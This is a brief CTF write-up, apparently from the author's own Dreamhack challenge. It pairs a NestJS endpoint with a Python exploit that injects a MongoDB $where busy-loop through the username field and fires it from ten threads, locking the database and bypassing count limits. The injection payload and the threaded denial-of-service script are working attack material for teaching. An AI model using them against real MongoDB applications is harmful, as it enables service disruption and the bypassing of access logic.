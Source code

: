 ```yaml
---
title: MongoDB Race Condition payload
date: 2024-01-30
categories: [Payload]
tags: [Write up]
---
```


## Information 
Target: `MongoDB`  
Vulnerability: `Race Condition`

## Desc
MongoDB Race Condition Attack with db lock.  

## Example
### Code
```javascript
// admin.controller.ts
@Post('list')
async getFlagList(@Body() listDto: ListDto): Promise<FlagDocument[]> {
	return await this.adminService.getFlagList(listDto.username);
}
```
### Exploit
```Python
import threading
import json

# Logic Vulnerability - Database Lock
def lock():
    res = requests.post(f"{url}/admin/list", headers=auth,
                        json={"username": '''admin", "$or": [{"dummy": "dummy"},{"$where": "date=new Date();do{cur=new Date();}while(cur-date<5000) + 1 || true"}], "":"'''})
    print(res.text)

threads = []
for i in range(10):
    thread = threading.Thread(target=lock)
    threads.append(thread)
    thread.start()
```
It takes a long time to count the number of existing documents in the DB, so logic such as number restrictions can be bypassed.

## Comment
This is part of the solution for the challenge I made. ( For dreamhack X-mas CTF )  
[Challenge Link](https://dreamhack.io/wargame/challenges/1061)
[Ref](https://www.hahwul.com/2016/01/12/web-hacking-nosql-injection-mongodb/)